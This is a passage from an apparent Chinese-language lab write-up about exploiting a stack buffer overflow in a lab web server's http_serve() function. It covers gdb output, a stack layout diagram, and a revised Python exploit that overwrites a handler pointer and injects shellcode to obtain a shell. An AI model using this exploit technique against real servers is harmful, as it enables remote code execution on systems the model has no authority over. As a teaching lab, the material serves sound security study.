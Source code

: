 执行该 exploit 发现程序竟直接 crash 退出，并未如期望地执行 shellcoade。gdb 调试发现 `http_serve()` 返回时 eip 并不是我们期望的地址， 而是 41414141（‘AAAA’ ）—— 我们的 buf 垃圾填充。

```console
(gdb) nexti  //使用 next、nexti、stepi 这些有用的 gdb 命令

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
```

这说明在返回值之前另外有某处存程序指针。

结合代码和 gdb 观察，原来栈上 ret addr 之前（低地址）还有个 handler 函数跳转指针，大致画出溢出发生前栈内存排布如下：

```
         ┌─────────────────────┐
         │                     │
         │   return addr 4     │
         │                     │
         ├─────────────────────┤
         │                     │
         │    saved ebp 4      │
   ebp   │                     │
   ────> ├─────────────────────┤
         │                     │
         │     foo,bar  8      │
         │                     │
         ├─────────────────────┤
         │                     │
         │     handler  4      │
         │                     │
         ├─────────────────────┤
         │      buf[1024]      │
         │         .           │
         │         .           │
         │         .           │
         │         .           |
         │  "/home/httpd/lab"  |--> buf[0~14]
         ├─────────────────────┤
         │                     │
   esp   │                     │
   ────> │                     │
```

显然，为了跳开这个「陷阱」，溢出目标应该改为这个 handler 指针。

修改后的 exploit 如下：

```python
    path = "/" + 'A'*1008 + struct.pack('<L', stack_saved_ebp + 8) + 'AAAA'*2 + 'SEBP' + 'SRET' + shellcode
    req =   "GET " + path + " HTTP/1.0\r\n" + \
                "\r\n"
```

运行此 exploit 可以在服务器端响应看到 `$`，即打开了一个 shell。
